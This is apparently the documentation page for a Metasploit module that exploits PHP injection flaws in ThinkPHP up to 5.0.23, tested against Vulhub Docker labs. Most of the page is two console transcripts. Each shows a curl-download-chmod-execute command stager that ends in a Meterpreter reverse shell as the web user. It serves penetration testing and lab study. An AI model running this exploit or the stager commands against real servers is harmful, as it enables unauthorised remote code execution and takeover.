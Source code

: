 ## Vulnerable Application

### Description

This module exploits one of two PHP injection vulnerabilities in the
ThinkPHP web framework to execute code as the web user.

Versions up to and including 5.0.23 are exploitable, though 5.0.23 is
vulnerable to a separate vulnerability. The module will automatically
attempt to detect the version of the software.

Tested against versions 5.0.20 and 5.0.23 as can be found on Vulhub.

### Setup

1. `git clone https://github.com/vulhub/vulhub`
2. `cd vulhub/thinkphp/5-rce` for 5.0.20 or `cd vulhub/thinkphp/5.0.23-rce` for 5.0.23
3. `docker-compose up -d`

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This executes a Unix command.

### 1

This uses a Linux dropper to execute code.

## Options

### SRVPORT

If you are testing the [Docker container](#setup), which binds to port
8080 by default, and you are using an HTTP(S) command stager, set this
to a different port to bind the command stager server to.

## Scenarios

### ThinkPHP 5.0.20 from [Vulhub](https://github.com/vulhub/vulhub/tree/master/thinkphp/5-rce)

```
msf5 > use exploit/unix/webapp/thinkphp_rce
msf5 exploit(unix/webapp/thinkphp_rce) > options

Module options (exploit/unix/webapp/thinkphp_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8080             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf5 exploit(unix/webapp/thinkphp_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(unix/webapp/thinkphp_rce) > set lhost 192.168.1.3
lhost => 192.168.1.3
msf5 exploit(unix/webapp/thinkphp_rce) > set srvport 8888
srvport => 8888
msf5 exploit(unix/webapp/thinkphp_rce) > run

[*] Started reverse TCP handler on 192.168.1.3:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. ThinkPHP 5.0.20 is a vulnerable version.
[*] Targeting ThinkPHP 5.0.20 automatically
[*] Using URL: http://0.0.0.0:8888/a81nrUs9fCfJSX
[*] Local IP: http://192.168.1.3:8888/a81nrUs9fCfJSX
[*] Generated command stager: ["curl -so /tmp/TbEGgqIl http://192.168.1.3:8888/a81nrUs9fCfJSX;chmod +x /tmp/TbEGgqIl;/tmp/TbEGgqIl;rm -f /tmp/TbEGgqIl"]
[*] Executing command: curl -so /tmp/TbEGgqIl http://192.168.1.3:8888/a81nrUs9fCfJSX;chmod +x /tmp/TbEGgqIl;/tmp/TbEGgqIl;rm -f /tmp/TbEGgqIl
[*] Client 192.168.1.3 (curl/7.52.1) requested /a81nrUs9fCfJSX
[*] Sending payload to 192.168.1.3 (curl/7.52.1)
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.3:55132) at 2020-05-01 04:25:29 -0500
[+] Successfully executed command: curl -so /tmp/TbEGgqIl http://192.168.1.3:8888/a81nrUs9fCfJSX;chmod +x /tmp/TbEGgqIl;/tmp/TbEGgqIl;rm -f /tmp/TbEGgqIl
[*] Command Stager progress - 100.00% done (118/118 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: no-user @ 099b50f07ffe (uid=33, gid=33, euid=33, egid=33)
meterpreter > sysinfo
Computer     : 172.19.0.2
OS           : Debian 9.4 (Linux 4.19.76-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

### ThinkPHP 5.0.23 from [Vulhub](https://github.com/vulhub/vulhub/tree/master/thinkphp/5.0.23-rce)

```
msf5 exploit(unix/webapp/thinkphp_rce) > run

[*] Started reverse TCP handler on 192.168.1.3:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. ThinkPHP 5.0.23 is a vulnerable version.
[*] Targeting ThinkPHP 5.0.23 automatically
[*] Using URL: http://0.0.0.0:8888/hVN9Y2ju
[*] Local IP: http://192.168.1.3:8888/hVN9Y2ju
[*] Generated command stager: ["curl -so /tmp/tHWxdQqn http://192.168.1.3:8888/hVN9Y2ju;chmod +x /tmp/tHWxdQqn;/tmp/tHWxdQqn;rm -f /tmp/tHWxdQqn"]
[*] Executing command: curl -so /tmp/tHWxdQqn http://192.168.1.3:8888/hVN9Y2ju;chmod +x /tmp/tHWxdQqn;/tmp/tHWxdQqn;rm -f /tmp/tHWxdQqn
[*] Client 192.168.1.3 (curl/7.52.1) requested /hVN9Y2ju
[*] Sending payload to 192.168.1.3 (curl/7.52.1)
[*] Meterpreter session 2 opened (192.168.1.3:4444 -> 192.168.1.3:55145) at 2020-05-01 04:26:44 -0500
[+] Successfully executed command: curl -so /tmp/tHWxdQqn http://192.168.1.3:8888/hVN9Y2ju;chmod +x /tmp/tHWxdQqn;/tmp/tHWxdQqn;rm -f /tmp/tHWxdQqn
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: no-user @ b4be164434d3 (uid=33, gid=33, euid=33, egid=33)
meterpreter > sysinfo
Computer     : 172.18.0.2
OS           : Debian 9.6 (Linux 4.19.76-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
